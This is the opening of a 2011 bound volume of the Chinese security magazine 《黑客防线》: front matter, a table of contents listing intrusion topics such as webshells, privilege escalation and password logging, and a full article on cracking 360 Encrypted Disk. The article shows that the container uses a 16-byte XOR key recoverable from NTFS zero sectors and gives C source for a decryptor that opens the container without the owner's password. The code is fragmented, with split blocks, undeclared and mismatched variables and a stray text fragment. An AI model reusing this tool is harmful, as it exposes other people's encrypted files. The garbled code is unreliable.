# 黑客防线2011合订本（下）第一部分

---

黑客防线系列

## 黑客防线

## 2011 合订本（下半年）

《黑客防线》编辑部 编

- 剖析黑客攻防技术焦点
- 展示技术的创新与突破
- 透视黑客攻防发展趋势
- 全面收录流行黑客技术


## 黑客防线系列

## 黑客防线

## 2011 合订本（下半年）

《黑客防线》编辑部 编


电子工业出版社  
Publishing House of Electronics Industry  
北京·BEIJING

## 内容简介

本书为《黑客防线》杂志 2011 年第 7 期至第 12 期杂志所刊登文章的合集，内容涉及当前操作系统与应用软件最新漏洞的攻击原理与防护、脚本攻防、渗透与提权、溢出研究，以及网络安全软件的编写、网管工具的使用等。本书涉猎范围广，涵盖目前网络安全领域的各个方面，其中不乏代表着国内网络安全的顶级技术研究、0day 漏洞的发布，以及最新的安全技术研究趋势，具有极高的收藏与阅读价值。

本书适用于网络安全从业者、网络管理员、软件测试人员，以及在校大学生等诸多网络安全爱好者阅读。

未经许可，不得以任何方式复制或抄袭本书之部分或全部内容。  
版权所有，侵权必究。

## 图书在版编目（CIP）数据

黑客防线：2011 合订本. 下半年 / 《黑客防线》编辑部编. — 北京：电子工业出版社，2012.4  
（安全技术大系）  
ISBN 978-7-121-16120-9

I. ①黑…  II. ①黑…  III. ①计算机网络—安全技术  IV. ①TP393.08

中国版本图书馆 CIP 数据核字（2012）第 034855 号

- 策划编辑：毕宁　bn@phei.com.cn
- 责任编辑：徐湛平
- 特约编辑：顾慧芳
- 印刷：北京天宇星印刷厂
- 装订：三河市皇庄路通装订厂
- 出版发行：电子工业出版社
- 北京市海淀区万寿路 173 信箱　邮编：100036
- 开本：850×1168　1/16　印张：25.75　字数：683 千字
- 印次：2012 年 4 月第 1 次印刷
- 印数：4000 册　定价：59.00 元

凡所购买电子工业出版社图书有缺损问题，请向购买书店调换。若书店售缺，请与本社发行部联系，联系及邮购电话：（010）88254888。  
质量投诉请发邮件至 zlts@phei.com.cn，盗版侵权举报请发邮件至 dbqq@phei.com.cn。  
服务热线：（010）88258888。

## 编者言

### 关于《黑客防线》

《黑客防线》是一本涉及网络信息安全的纯技术月刊，创刊于 2001 年，至今已经历时 10 年。10 年来，《黑客防线》坚持“在攻与防的对立统一中寻求技术突破”的理念，积极倡导技术创新和突破，成为国内网络信息安全技术人员和相关专业在校学生不可缺少的技术月刊。

随着时代的发展，为了使读者更加及时、便捷地阅读这本技术月刊，从 2010 年 7 月开始，月刊采用了电子版网络传播形式，不再出版纸张版的月刊。但是考虑到广大读者在得到快捷的电子版月刊的同时，还是希望将纸质版月刊作为技术资料收藏，为了满足这一要求，我们每半年将会出版这样一本合订本。合订本将全面收录半年的文章，偶尔也会删除极少部分技术含量不足的文章，总体还是体现技术创新和突破。

### 关于《黑客防线》半年度合订本的出版周期

我们一般会在每年的 8 月出版上半年的合订本，每年的 2 月出版前一年下半年的合订本。由于编、印、发涉及诸多环节，希望读者能够容忍这个延时。如果希望及时阅读其中的文章，还是建议到《黑客防线》官网（www.hacker.com.cn）订阅电子版月刊。

### 关于文章中涉及代码的下载

由于强调纯粹技术性的研究，很多文章涉及的技术阐述需要用代码实现，本来应该收录在光盘中随书配送。但是，目前光盘审读一般依赖杀毒软件扫描结果，对于本技术领域很多代码都会误报，而一一澄清又需要拖延出版周期。所以，我们只能在《黑客防线》官网提供相关代码的下载。由此带来的不便希望得到读者的理解和谅解。

### 关于购买合订本的途径

电子工业出版社所有的销售终端都是极好的购买途径，包括但不限于各大新华书店、科技书店、计算机书店以及网络书城。同时《黑客防线》编辑部的淘宝店也会有便捷服务。

### 关于《黑客防线》的内容定位

《黑客防线》一直倡导技术创新和突破。这个倡导具体到网络信息安全相关，旨在强调底层编码技术研究、底层协议、系统内核、程序缺陷等方面技术对抗，反对应用级别的攻击实验性质的描述文章，真正实现底层技术层面的攻与防的对立统一，这是我们 10 年来一直倡导的，也是今后要坚持的方向。所以，欢迎后来者居上的新人也勇于尝试技术研究和创新，相信在这个技术领域只有创新、没有权威，积极投稿。投稿邮箱：du_xing_zhe@yahoo.com.cn。

作者将会获得《黑客防线》技术团队头衔并且有机会获得课题和科研项目经费资助。

### 关于感谢的话

10 年间，《黑客防线》的技术探索之路其实也是一条不平坦的道路。由于众所周知的原因，我们一直寻求在法律允许的范围内研究这个边缘性、交叉性学科所涉及的纯粹技术，其目的就是为本土网络信息安全建立一个技术家园、培养出稀缺门类的技术专才。在此过程中，始终得到了各大安全公司和相关行业的认可，特别是有的公司在录用员工时客观参考在《黑客防线》上发表的文章，还有的公司在员工技术考核中把在本刊发表的文章也列入指标；有些高校相关专业给予我们作者以奖学金或者学分奖励，这种认可，是我们首先要感谢的。还要感谢 10 年来坚持技术研究并且投稿支持我们分享技术成果的作者们，其实这个技术团队已经成为相关行业的技术中坚力量。同时，更要感谢坚持阅读分享并且参与技术研究的广大读者，以及很多机构的图书馆、资料室；读者的需要使我们感到了工作的价值。最后要感谢的是电子工业出版社将本书作为一个序列持续出版下去的计划，此中尽职尽责的毕宁编辑卓有成效的工作也受到我们的尊敬和感谢。

《黑客防线》编辑部 binsur20000@gmail.com

## 《黑客防线》2011 合订本（下半年）

目录

## 焦点关注

- 破解 360 密盘的加密之谜 …… 1
- 彻底废除 Win64 上 360 的进程自我保护 …… 4
- 详解 Win64 上的 SSDT …… 6
- 完美突破 Win7 UAC …… 10
- CVE-2011-2140 Flash 漏洞分析 …… 13
- Ring3 下穿透磁盘还原技术的揭秘 …… 15
- Stuxnet 蠕虫攻击原理分析 …… 21

## 漏洞攻防

- 揭秘 ChinaExcel Chart 图表控件远程溢出 0day …… 25
- 另类的珊瑚浏览器 XSS 0day 漏洞 …… 27
- The Bat! 远程命令注入执行漏洞 …… 30
- 再论 CVE-2011-0073 Firefox 漏洞 …… 32
- 不得不说的 QQ 浏览器 …… 36
- 无处不在的 DllHijack 漏洞 …… 38
- 首发超速浏览器 XSS 0day 漏洞 …… 40
- 百密一疏的宝贝儿拍卖系统 …… 42
- 乐彼网店系统致命的 SQL 注入漏洞 …… 45
- 百度游戏用户登录漏洞 …… 48
- 隐藏在超级链接下的罪恶 …… 50
- H3C iMC Portal ARP 欺骗及数据库后门 hash 验证漏洞 …… 53
- Kangle Error Message XSS 代码注入漏洞 …… 55
- 危险的网趣网上购物系统 …… 57
- 支付宝密码安全控件明文漏洞 …… 60
- 来自金山毒霸的欺骗 …… 61
- 揭秘 Remote Files Server 文件信息泄露漏洞 …… 64
- 首发微软 IIS 7.5 Express 拒绝服务漏洞 …… 66

## 脚本攻防

- 利用 msvcr71.dll 与 mona.py 实现通用绕过 DEP/ASLR …… 68
- 打造程序自身 MemoryWatcher …… 70
- Format String 攻击再谈 …… 72
- 博客园博客跨站漏洞及利用 …… 78
- Discuz!6.0 管理员权限插件导入获取 Webshell …… 79

## 漏洞测试

- 利用堆空间突破启发式 …… 81
- 协议包构造工具——scapy …… 82
- SSL DOS 攻击测试 …… 84

## 渗透与提权

- 对国外某站点的一次安全检测 …… 88
- 利用 Art2OC8cms 系统管理员获取 Webshell …… 91
- Microsoft SQL Server 2005 提权 …… 94
- MySQL 数据库提权 …… 97
- Serv-U 提权 …… 99
- Access 注入获取 Webshell …… 101
- 密码绕过获取某国外站点 Webshell …… 103
- 3389 攻击与防范实用技巧 …… 107
- 为 VPN 而渗透学校校园网 …… 112
- Pr 提权渗透国外某高速服务器 …… 114
- Windows 2008 中 Magic Winmail Server 提权 …… 118
- 使用 Discuz!NT3.5.2 文件编辑 0day 获取 Webshell …… 121
- JBoss Application Server 获取 Webshell …… 123
- JBoss 信息查看获取 Webshell …… 127
- Discuz!6.0 管理员编辑模板文件获取 Webshell …… 129
- Discuz!7.2 管理员权限插件导入获取 Webshell …… 131
- 渗透数据库之某数据的绝妙应用 …… 133

## 漏洞研究

- MS11-046 本地权限提升漏洞分析 …… 137
- VMware UDF 文件缓冲区溢出 …… 139

## 网络安全顾问

- 利用 OSSEC 构建自己的入侵检测系统 …… 142
- Android 手机上来电防火墙的设计与实现 …… 148
- ARP 欺骗攻击及其检测与防御 …… 152
- 一种防御僵尸网络攻击的编码方式 …… 156
- 一种新的 Linux 内核劫持方法分析 …… 160
- 谁在遥控我的电视（下）——中兴机顶盒引发的 IPTV 安全问题 …… 163
- Serv-U 密码破解 …… 168
- 利用 NDIS 中间层驱动实施通信拦截与自阻塞 …… 170
- 深度剖析 Windows 句柄分配 …… 175
- 程序动态分析与软件漏洞利用 …… 180
- 利用 INT 2D 检测调试器和代码混淆 …… 188
- Android 操作系统安全研究系列——通话录音 …… 190
- 远程终端攻防技术完全攻略专题——远程终端的安装使用 …… 192
- Metasploit 下的高级武器——Armitage …… 196
- Android 操作系统安全研究系列——手机变窃听器 …… 199
- 垃圾的安全——碎纸机安全剖析 …… 201
- 利用 Windows 用户模式回调机制实施内核攻击 …… 206
- 物理内存取证之文件与缓存分析 …… 213
- Radmin 网络攻防全面接触 …… 217
- Android 操作系统安全研究系列——文件下载 …… 230
- 手机动态口令文件保护系统 …… 231
- Hardware Hack 之 NFC 系列 IC 卡数据读取 …… 235
- 一种使 PatchGuard 失效的简单方法 …… 237

## 编程解析篇

- HAL 层直接端口 I/O …… 239
- 绕过 IceSword1.22 来隐藏文件 …… 241
- 在 Ring 3 调用内核函数 …… 246
- VB 识别倾斜验证码方法讨论 …… 252
- 在 x86 程序里混合 x64 代码 …… 256
- 利用缺页异常中断主动拦截 API Hook …… 260
- 编写 NdisRegisterProtocol …… 262
- 针对 Python bytecode 混淆技术的内存级反汇编 …… 267
- 一个魔兽争霸外挂的实现 …… 271
- 挂钩 xxxKeyEvent 实现安全键盘输入 …… 275
- 由 HOOK 引发同步安全之谈 …… 278
- 使用 kprobes 进行内核修改 …… 281
- 另类过文件主动防御 …… 287
- VB 伸缩图像之插值算法 …… 289
- 在 Win64 上实现摄像头开启防护 …… 292
- 对某 Crackme 的分析及其注册机的写法 …… 296
- 过滤 IRP 突破冰刃文件检测 …… 299
- Android 操作系统安全研究系列——短信窃听器 …… 303
- 再谈在 Win64 上反蓝屏 …… 308
- 在 Win64 上动态枚举 SSDT …… 311
- 挂钩 KeUsermodeCallback 函数来实现自己的“财产保镖” …… 316
- 利用 MmCheckSystemImage 拦截驱动加载 …… 321
- indy 组件 idhttp 500 错误时获取网页内容 …… 324
- Android 远程监控技术之——Android 系统概述 …… 326
- 破坏 PE 与拆分功能突破启发式 …… 335
- 通过手机短信控制电脑 …… 336
- 在 Win64 上实现内核级 Inline Hook …… 340
- 杂谈兼容模式与 WOW64 …… 342
- 在 Win64 上实现强制读/写进程内存 …… 347

## 专题目录（四）

- 在 Win64 上实现代码注入 …… 351
- 在 Win64 上内核模块的枚举和隐藏 …… 356
- 摸清中文输入原理截汉字 …… 359
- 调研 Handwritten Password …… 361
- DLL 劫持检测 …… 363
- 高效使用和管理程序内存 …… 368
- Android 程序开发之 Whereyouare …… 370
- 进程防火墙开发的再次挖掘 …… 374
- 无驱动记录 QQ2011 密码 …… 379
- 清空 CMOS 的几种方法 …… 383

## 专题目录（五）

- 对一个键盘过滤驱动的逆向 …… 388
- 一款游戏资源解包工具的开发始末 …… 390
- 反程序破解的一种方法 …… 396
- 记一个有趣的 CrackMe …… 397
- 惑炮虚拟操作系统探秘（一） …… 400

前置知识：无

关键词：无

## 破解 360 密盘的加密之谜


liuke_blue

360 密盘是 360 公司最新推出的一款保护用户资料不外泄的加密工具，在《黑客防线》2010 年第 12 期的文章上我提到绕过文件透明加密机制的方法，其中提到过 360 密盘加密机制，它就是利用一个文件虚拟成磁盘，也就是 FileDisk 的原理。了解到这一步，大家就可以明白 360 密盘的工作原理是通过网络验证来打开加密盘符。大家再仔细想一想，是不是验证成功就马上解密出原先加过密的镜像文件（也就是虚拟磁盘 360 密盘 X），解密的结果如图 1 所示。



由于 360 密盘是内嵌入 360 安全卫士的，所以需要安装 360 安全卫士才能安装 360 密盘，其实可以将 360 密盘直接剥离出 360 安全卫士。在 360 安装目录下建一个 360safe 文件夹，这个其实就是安装 360 安全卫士产生的目录，里面建一个文件夹，名为 mipan 的目录，还需要一个 360Common.dll 的公用通信动态链接库文件，如图 2 所示。



用加载驱动的工具加载 360mipan.sys 驱动，然后就可以使用 360 密盘了。在磁盘分区下会生成文件目录 360mipan，里面就保存着密盘（其实它是以文件的形式保存的，对操作文件模拟成对磁盘的操作，对于用户来说是透明的）。

第一次登录时，需要网络验证，登录后在 mipan 目录下会生成三个文件：mipan.ini、autologin.data、savepass.data。mipan.ini 是配置文件，里面有几个参数，一个是自动登录的参数 Autologin，如果为 1，下次就直接与 autologin.data 中保存的账号和密码进行验证，不需要再进行网络验证；如果将 Autologin 设置为 0，并且删除 autologin.data，将需要再次进行网络验证。

如果从 autologin.data 中已加密的数据逆推出原始账号，这肯定不行，万一不是对称加密或者是单向散列算法呢？进行网络截包分析，因为网络验证最后是需要进行网络应答的，但是这也会存在问题，因为你伪装网络服务器，回应登录成功的包后，解密加过密的密盘文件仍然需要正确的原始账号和密码，或者通过原始账号和密码对称加密后的密文。

所以上面这些想法我觉得都不太好，最好的方法就是对使用对称加密的密盘进行分析，看是否能找到一点“蛛丝马迹”。我在测试中发现，如果加密一个 1GB 的盘，其生成的文件要大于 1GB，正好相差 1MB（1024*1024 字节）。我使用 WinHex 软件打开密盘文件（该文件保存在密盘目录 360mipan 下扩展名为 .360sv 的文件，该文件与 360 卫士挂钩，必须通过登录 360 密盘软件才能删除该文件），然后偏移 1MB 的文件位置来查看该 .360sv 文件。360 密盘的文件格式是 NTFS，我们可以结合 NTFS 磁盘格式来分析，效果如图 3 所示。



很显然这些数据肯定是加过密的，因为我们知道磁盘分区的第一个扇区是磁盘启动扇区，紧接着是 MFT，由读取 MFT 来定位磁盘上的文件，BOOTSECTOR 是在最开始的第一个扇区，这里我不做过多分析，有机会再跟大家学习。关键看第二个扇区，这个扇区属于 NTLDR 区域（含有 15 个扇区），总共这 16 个扇区（包括前面的 BOOTSECTOR）我们称之为 NTFS 的引导模块。从第二个扇区 0x21 开始连续有 48 个字节是 0，从上面的截图我们可以看到也就是 0x220-0x240，这 3 行的数据是一样的，大家仔细看看是不是，“真的是呀，我肯定一定以及确定”，开个玩笑，继续言归正传，假设这三行里就是密钥呢？为什么呢？因为如果是 xor 异或算法，A^0=A，B^0=B，只要任何数据与 0 进行异或都是它本身，不会变的，所以我们可以认为 0x220 这一行数据是密钥，如下：

（E3 01 D9 D1 25 8C B1 27 66 F4 DA 6E 7A 62 58 CF）

我们拿这 16 个字节循环来与第一个扇区异或，可以看到熟悉的 BOOTSECTOR 里的一些不变信息，比如开头 3 个字节的跳转指令（EB 52 90），后面接着 8 个字节（文件系统格式 NTFS + 4 个空格），还有出错信息、引导区结束标志（55 AA）。通过这些分析，我们可以知道 360 密盘就是采取异或的方式加密，并且密钥就在文件中。有了这些信息，我们可以写出解密程序。不久前网上已经有人爆出了破解 360 密盘的程序，但是我还是给大家提供了源代码，因为我无聊，所以把它给逆了，并且也仿写了一个跟它一模一样的程序，核心代码如下：

```c
BOOLEAN decode360mipan(LPCSTR sourcefile,LPCSTR destfile)
{
    HMODULE hModule;
    BOOLEAN result=FALSE;
    DWORD dwFileAttributes;
    HANDLE sourcehandle;
    HANDLE desthandle;
    LARGE_INTEGER fileSize={0};
    LARGE_INTEGER filepos={0};
    LONGLONG MinSize=0x100000;
    HANDLE maphandle;
    ULONG tmpsize;
    DWORD dwNumberOfBytesToMap = 0x1000000;
    PVOID mapAddress = NULL;
    PDWORD contrastpos1,contrastpos2;
    int num;
    BOOL different;
    PCHAR MiPanKeyOffset;
    ULONG i;
    BYTE Viscera;
    DWORD NumberOfBytesWritten;
    LARGE_INTEGER remainbytes={0};
    LARGE_INTEGER useedbytes={0};
}
```

```c
float percent;

dwFileAttributes = GetFileAttributesA(sourcefile);
SetFileAttributesA(sourcefile, 0x80u);
sourcehandle = CreateFileA(sourcefile, GENERIC_READ,
    FILE_SHARE_READ, NULL, OPEN_EXISTING,
    FILE_ATTRIBUTE_NORMAL, NULL);
if (sourcehandle == INVALID_HANDLE_VALUE)
{
    SetFileAttributesA(sourcefile, dwFileAttributes);
}
else
{
    hModule = LoadLibraryA("kernel32.dll");
    if (!hModule)
    {
        printf("LoadDll kernel32.dll failed!\n");
        FreeLibrary(hModule);
        return FALSE;
    }
    _DWORD _GetFileSizeEx=(DWORD)GetProcAddress(hModule,"GetFileSizeEx");

    __asm{
        push esi
        lea esi,fileSize
        push esi
        push sourcehandle
        call _GetFileSizeEx
        pop esi
    }

    // 至少文件大小要大于 1MB
    if (fileSize.QuadPart > MinSize)
    {
        maphandle = CreateFileMapping(sourcehandle,NULL,
            PAGE_READONLY,0,0,NULL);

        if (maphandle)
        {
            // 解密的文件句柄
            desthandle = CreateFileA(destfile,GENERIC_WRITE,0,NULL,
                CREATE_ALWAYS,FILE_ATTRIBUTE_NORMAL,NULL);
            if (desthandle != INVALID_HANDLE_VALUE)
            {
                // 1MB 大小
                tmpsize = 1048576;
                // 从文件起始偏移的位置开始读取文件
                filepos.QuadPart = 1048576i64;

                while(1)
                {
                    if (filepos.HighPart > fileSize.HighPart)
                        break;
                    if (filepos.HighPart == fileSize.HighPart &&
                        tmpsize >= fileSize.LowPart)
                        break;

                    // 从已加密的 360 密盘文件中每次读取 16MB 内容来解密
                    mapAddress = MapViewOfFile(maphandle,FILE_MAP_READ,
                        filepos.HighPart,filepos.LowPart,dwNumberOfBytesToMap);
                    if (mapAddress)
                    {
                        // 得到 360 密盘的密钥，起始很简单，xor 算法+任何数跟 0 异或得到的是自己
                        // 这就是获取 360 密钥原因，主要是 ntfs 稀疏文件存在的问题
                    }
                }
            }
        }
    }
}
```

码的问题，而是设计上的不足。

```c
if (filepos.LowPart == 1048576 && !filepos.HighPart)
{
    memcpy((void*)&MiPanKey, (void*)((PCHAR)mapAddress + 0x220), 16);
    num = 4;
    contrastpos1 = (DWORD*)((PCHAR)mapAddress + 0x230);
    // 连续3个的16字节都是360密盘密钥，都相等
    different = TRUE;
    MiPanKeyOffset = (PCHAR)&MiPanKey;
    do {
        if (!num) break;
        different = (*(DWORD*)contrastpos1 == *(DWORD*)MiPanKeyOffset) ? TRUE : FALSE;
        num--;
        MiPanKeyOffset = (PCHAR)MiPanKeyOffset + 4;
        contrastpos1++;
    } while (different);

    if (!different) break;

    // 再比较偏移0x20的16个字节
    num = 4;
    contrastpos2 = (DWORD*)((PCHAR)mapAddress + 0x240);
    different = TRUE;
    MiPanKeyOffset = (PCHAR)&MiPanKey;
    do {
        if (!num) break;
        different = (*(DWORD*)contrastpos2 == *(DWORD*)MiPanKeyOffset) ? TRUE : FALSE;
        num--;
        MiPanKeyOffset = (PCHAR)MiPanKeyOffset + 4;
        contrastpos2++;
    } while (different);

    if (!different) break;

    // 验证得到密钥后，就将前面映射的内容解密后写到解密文件中
    i = 0;
    while (i < dwNumberOfBytesToMap) {
        Viscera = *((PCHAR)mapAddress + i);
        Viscera = (BYTE)(Viscera ^ MiPanKey[i & 0xF]);
        Outbuffer[i] = Viscera;
        i++;
    }
    WriteFile(desthandle, (PVOID)&Outbuffer, dwNumberOfBytesToMap, &NumberOfBytesWritten, NULL);
    UnmapViewOfFile(mapAddress);
}
```

```c
}
tmpsize += dwNumberOfBytesToMap;
filepos.QuadPart = tmpsize;

remainbytes.QuadPart = fileSize.QuadPart - 1048576i64;
usedbytes.QuadPart += dwNumberOfBytesToMap;
percent = (float)(usedbytes.QuadPart) / (float)(remainbytes.QuadPart);

printf("Process...%d%%%\r", (int)(percent * 100));

if (tmpsize == fileSize.LowPart) {
    printf("\n");
    result = TRUE;
}
CloseHandle(desthandle);
CloseHandle(maphandle);
CloseHandle(sourcehandle);
SetFileAttributesA(sourcefile, dwFileAttributes);
return result;
}
```

代码我就不多解释了，自己看注释，我认为已经写得很详细了。大家要养成好的代码风格，以后自己再看的时候也会方便些，其实我是在说自己。下面就演示一下解密密盘，不好意思，这里我偷懒一下，我写的是控制台程序，不过原来的也是个控制台程序，示意图如图4所示。



图 4

使用 WinImage 软件将 hacker.img 镜像文件打开，示意图如图5所示。

文章到这里就结束了，但是我们可以看到，造成破解密码的问题并不是 360 密盘采取的异或算法出现问题，而是由于 NTFS 文件格式所引发的问题。最新的 360 密盘应该已经解决这个问题，除非有些用户还没有来得及升级。其实解决的办法很简单，如果遇到连续 16 个字节的 0 时，不进行加密，跳过即可，或者用前面加密数据作为后面加密的密钥。不代表就一定安全，完全可以编写字典数据库来进行异或测试，甚至对比分析已知密文、已知明文来进行解密，当然这样难度更大。实际上加密算法越简单，那么加密速度也就越快。对于用户来说，他当然希望越快越好，因为加密过程对于用户来说是透明的；但是要保证加密数据的安全，就应该使用更复杂的加密算法。但是复杂的加密算法则需要大量的时间，因为加密步骤复杂，相应解密步骤也就复杂。对于对称加密算法而言，这是无法调和的矛盾。不管再复杂的加密算法，除非其本身不存在漏洞，不然就有可能被攻破。但是我们知道，世界上没有绝对安全的加密算法，只要有足够长的时间、足够多的集群服务器进行网格计算破解，那么任何密钥都有可能被攻破，当然这是题外话了。相信大家已经从中明白点什么了。不足之处，敬请黑防读者们不吝赐教！



图 5

- 前置知识：VC
- 关键词：360，废除，Win64

## 彻底废除 Win64 上 360 的进程自我保护

